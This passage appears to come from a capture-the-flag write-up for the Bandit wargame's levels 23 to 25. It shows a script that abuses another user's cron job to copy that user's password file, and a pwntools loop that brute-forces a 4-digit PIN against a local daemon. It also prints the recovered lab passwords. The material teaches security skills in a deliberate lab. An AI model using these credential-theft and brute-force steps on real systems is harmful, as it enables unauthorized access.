 To solve this challenge, we just need to write a simple shell script with file owner `bandit23` that redirects the password in `/etc/bandit_pass/bandit24` to a file that we can look inside. All the steps are shown below.

```sh
$ cd /tmp
$ vim script.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/chall23_password.txt

$ chown bandit23 script.sh
$ chmod 777 script.sh
$ cp script.sh /var/spool/bandit24/foo
```

Now we wait for a minute (because that's how often the cronjob runs) and cat out the file

```sh
$ cat chall23_password.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

**Password**: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`


## Level 24

Challenge Description: `A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time`

I decided to use the `pwntools` python library for this challenge. `Pwntools` allows us to easily send and receive data from a server, which makes it perfect for brute-forcing the 4-digit pin.

```py
from pwn import *
r = remote("localhost", 30002)
print(r.recv())

for i in range(0, 10001):
    r.sendline(f'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 {i}'.encode())
    response = r.recv()
    if b"Wrong" not in response:
        print(response)
        break
```

`The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

**Password**: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`


## Level 25

Challenge Description: `Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.`
